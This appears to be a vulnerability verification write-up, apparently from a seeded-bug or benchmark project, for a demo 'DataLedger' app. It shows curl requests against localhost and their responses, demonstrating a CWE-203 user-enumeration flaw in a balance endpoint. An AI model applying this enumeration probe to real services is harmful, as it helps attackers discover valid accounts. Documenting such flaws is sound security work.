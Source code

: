 
# DataLedger Vulnerability Verification

## Vulnerability 1
**CWE-203: Observable Discrepancy Information Exposure**

**Location:**  
File: `src/app.py`  
Function: `get_balance` (lines ~10-45)

### Verification Steps

1. **Setup:**
    - Install dependencies:
      ```
      pip install -r requirements.txt
      ```
    - Start the server:
      ```
      python src/app.py
      ```

2. **Triggering the Information Exposure:**

   Try querying for a balance with an *incorrect* authentication token for an existing vs. non-existing user.

   - **Request with Existing User, Incorrect Token:**
     ```
     curl -X POST http://localhost:8004/balance \
        -H "Content-Type: application/json" \
        -d '{"username": "Alice", "auth": {"user_id": 1, "token": "wrongpass"}}'
     ```

     **Response:**
     ```json
     {"success": false, "error": "Access denied"}
     ```

   - **Request with Non-Existent User, Incorrect Token:**
     ```
     curl -X POST http://localhost:8004/balance \
        -H "Content-Type: application/json" \
        -d '{"username": "Mallory", "auth": {"user_id": 99, "token": "wrongpass"}}'
     ```

     **Response:**
     ```json
     {"success": false, "error": "Access denied"}
     ```

   - **Request with Existing User, Correct Token:**
     ```
     curl -X POST http://localhost:8004/balance \
        -H "Content-Type: application/json" \
        -d '{"username": "Alice", "auth": {"user_id": 1, "token": "letmein"}}'
     ```

     **Response:**
     ```json
     {"success": true, "balance": 1200}
     ```

   - **Request with Non-Existent User, Correct Token:**
     ```
     curl -X POST http://localhost:8004/balance \
        -H "Content-Type: application/json" \
        -d '{"username": "Mallory", "auth": {"user_id": 99, "token": "letmein"}}'
     ```

     **Response:**
     ```json
     {"success": false, "error": "User not found"}
     ```

3. **Observation:**
    - If you supply a **correct** authentication token, but an invalid username, the error `"User not found"` is given, while valid users show their balance.
    - If you supply an **incorrect** token, regardless of user, the response is always `"Access denied"`.
    - By trying different usernames with a valid token, an unauthorized user can deduce which usernames are present in the ledger (**user enumeration**), because the system's response is observably different for real vs. fake users.

### CWE Reference

> [CWE-203: Observable Discrepancy](https://cwe.mitre.org/data/definitions/203.html)

